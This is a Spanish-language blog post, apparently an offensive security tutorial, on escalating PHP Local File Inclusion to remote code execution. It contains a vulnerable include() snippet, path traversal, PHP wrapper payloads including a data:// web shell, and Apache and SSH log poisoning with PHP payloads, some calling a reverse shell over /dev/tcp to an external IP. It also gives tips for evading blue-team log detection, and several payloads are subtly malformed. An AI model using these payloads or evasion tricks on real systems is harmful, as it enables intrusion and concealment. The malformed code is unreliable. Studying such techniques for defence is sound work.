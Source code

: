 ```yaml
---
title:  "Welcome to Jekyll!"
header:
  teaser: "/assets/images/logo.jpeg"
categories: 
  - Jekyll
tags:
  - update
---
```


Antes de empezar explicando como conseguir RCE explotando una vulnerabilidad de Inclusión de archivos locales, primero necesitamos saber que es y como funciona.
“Local File Inclusion” es una vulnerabilidad que te permite incluir archivos locales a un servidor a causa de una mala programación en cuanto a “back-end”, esta vulnerabilidad está presente en PHP, JSP, ASP entre otros.

## Explotación de la vulnerabilidad

Imaginemos que tenemos este código en un archivo PHP.

```php
<?php 
   $file = $_GET['file'];
   if(isset($file)) 
   { 
   include("$file"); 
   } 
?>
```

Este código es vulnerable a LFI porque estamos declarando el parámetro “file” sin ningún tipo de sanitización, por lo tanto nos permitiría incluir archivos en el servidor.

**Petición Legítima:**

```php
http://192.168.1.144/test.php?file=contact.php
```

**Petición malintencionada:**

```php
http://192.168.1.144/test.php?file=/etc/hosts
```

Como vemos en la segunda petición que tramitamos al servidor web es diferente a la primera, en la segunda estamos explotando un LFI en toda regla, por lo que la respuesta de parte del servidor es un 200 OK, es decir el recurso solicitado existe, en este caso nos devolvería el contenido del archivo “/etc/hosts”.

Hay programadores que reconocen este tipo de vulnerabilidad web e intentan sanitizar el código de alguna manera:

```php
<?php 
   $file = $_GET['file'];
   if(isset($file)) 
   { 
   include("lib/functions/$file");
   }
?>
```

Aquí solo seria cuestión de hacer un “Directory Path Traversal”, es decir volver directorios atrás para apuntar al recurso solicitado “../../etc/hosts”. Cabe decir que este ejemplo es simple, se puede complicar mucho más.

## Wrapper
Un "**Wrapper**" en LFI es una envoltura que incorpora PHP, se introduce en la URL al tramitar la petición al servidor legítimo. Hay distintos tipos de "**Wrappers**" y cada uno para una función en específico, los más comunes son:

```php
expect://: http://192.168.1.144/test.php?file=expect://whoami
filter://: http://192.168.1.144/test.php?file=php://filter/convert.base64-encode/resource=test.php
data://: http://192.168.1.144/test.php?file=data:text/plain;,<?php echo shell_exec($_GET[‘cmd’]);?>
``` 

## ¿Cómo conseguir RCE de un LFI?

Se puede conseguir "**Remote Code Execution**" de distintas formas, pero aquí solo explicaré unas cuantas. En LFI hay una técnica para conseguir RCE llamada "**Log Poisoning**", consiste en envenenarlos .log de Apache o SSH.

Los logs son archivos que dejan registro de lo que haces, un ejemplo seria cuando accedes al servidor web, lo que haces es verificar si el recurso que solicitas existe y eso lo haces mediante una petición de tipo GET, pues eso se queda registrado en estos archivos, cada servicio tiene su propio archivo .log, en este caso nos centraremos solo en Apache y SSH.

Te estarás preguntando ¿Cómo concateno un LFI con un “Log Poisoning”?

**Buena pregunta!!!**, pues es más sencillo de lo que parece. Primero debemos saber cuál es la ruta de estos logs, el archivo de logs de Apache se sitúa en ```/var/log/apache2/access.log``` y el de SSH ```/var/log/auth.log```, le damos permiso de lectura y escritura a la carpeta de los logs de Apache con ```chmod 755/var/log/apache2``` y ```chmod 755 /var/log/auth.log``` para el archivo de los logs de SSH para que podamos visualizar su contenido.
Bien, tenemos medio trabajo hecho, ahora solo faltaría envenenar estos logs, lo que tendríamos que hacer es tramitar una petición a la ruta donde se encuentran los logs y cambiar el “**UserAgent**”, vamos a utilizar “**BurpSuite**” para hacerlo, también se puede utilizar “**Curl**” para más rapidez. Usaré “**BurpSuite**” para ver como se comporta la petición por detrás y sea más claro.

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226068-c09dd300-c246-11eb-9300-198cce165d89.png">
</p>

Como vemos en la foto anterior hemos interceptado la petición con “**BurpSuite**”, ahora la mandamos al “**Repeater**” para modificarla a nuestra manera, cambiamos el “**User-Agent**” y ponemos nuestras sentencias maliciosas en *PHP*:

```php 
<?php system($_GET['sh >& /dev/tcp/192.168.1.144/443 ']); ?>

<?php shell_exec($_GET['cmd']); ?>
```

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226156-efb44480-c246-11eb-8e66-0cea44ec83e8.png">
</p>

Enviamos la petición maliciosa al servidor y…

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226181-ffcc2400-c246-11eb-898c-0b9348b621f5.png">
</p>

Lo malo aquí es que las peticiones se emiten por tipo GET, esto quiere decir que se verían reflejadas en los logs y sería muy fácil para el “**Blue-Team**” pillar-nos, para ponérselos más difícil lo ideal seria cambiar el tipo de petición a POST o REQUEST.

```php
<?php system($_REQUEST['bash >& /dev/tcp/192.168.1.144/443 ']); ?>

<?php shell_exec($_POST['cmd']); ?>
```

Utilizando “**Curl**” sería algo un poco más complejo de entender, pero nada del otro mundo:

```php 
~$ curl -s -X REQUEST -A "<?php system($_REQUEST['whoami']); ?>" "http://192.168.1.144/test.php?file=/var/log/apache2/access.log"
```

Lo que estamos haciendo es enviar una petición por REQUEST para que no se vea reflejada en él *.log* y en modo “**silent**” para no ver la respuesta de lado del servidor, el parámetro “**-A**” es para modificar el “**UserAgent**” a nuestra manera y por último le especifico a que URL quiero enviarla.
Para envenenar los logs de SSH es aún más sencillo, en vez de poner un “**user**” en el campo correspondiente para la conexión con SSH, ponemos la sentencia maliciosa de *PHP* entre comillas simples seguida de una arroba y la IP del sistema.

```php
<?php system(‘whoami’); ?>
```

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226346-4b7ecd80-c247-11eb-817b-8eef893fd0d0.png">
</p>
